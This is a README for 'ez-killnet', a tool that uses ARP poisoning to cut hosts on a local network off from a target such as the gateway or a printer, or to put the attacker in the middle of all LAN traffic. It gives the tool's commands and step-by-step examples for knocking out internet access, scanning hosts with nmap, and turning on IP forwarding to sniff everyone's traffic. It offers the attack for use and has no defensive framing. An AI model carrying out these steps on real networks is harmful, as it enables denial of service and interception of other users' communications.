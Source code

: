 # ez-killnet
kill or mitm whole network (2.4GHz + 5GHz + eth + anything) using arp poisoning (simple & easy scapy way) 

cd to directory and run the following 
sudo ./ez-killnet.py -i [interface to use for attack] -t [ipaddr to make unreachable on lan] 

example: (kill internet gateway) 
1. connect wlan0 to network 
2. route -n to find gateway (found it to be 192.168.10.1)
3. sudo ./ez-killnet.py -i wlan0 -t 192.168.10.1 -x kill 
4. now all hosts on network cannot reach this gateway and they all have trouble connecting to the internet 

example: (kill valuable resources) 
1. connect eth0 to network 
2. nmap -sn 192.168.10.* to learn about hosts (found printer to be 192.168.10.226)
3. sudo ./ez-killnet.py -i eth0 -t 192.168.10.226 -x kill 
4. now all hosts on network cannot reach this resource

example: (MITM internet gateway) 
1. connect wlan0 to network 
2. route -n to find gateway (found it to be 192.168.10.1)
3. echo "1" > /proc/sys/net/ipv4/ip_forward
4. sudo ./ez-killnet.py -i wlan0 -t 192.168.10.1 -x mitm 
5. now you are listening to all streams btwn router and hosts on the network 


This program works by telling people that this ip you entered is located at your own mac address which is different from the real one. Hosts on the network try to reach this ip by viisting your own computer, but by default your kernel doesnt forward ipv4 traffic so the packets never get sent to where theyre actually suppossed to go. 

If you wish start an MITM attack please echo "1" > /proc/sys/net/ipv4/ip_forward. This way your computer will be forwarding the requests to where they should go situating itself in the middle of all traffic on the network. Fire up your sniffer (ettercap, wireshark, etc.) and you will be able to see all the traffic flowing through your computer from all over the network. 

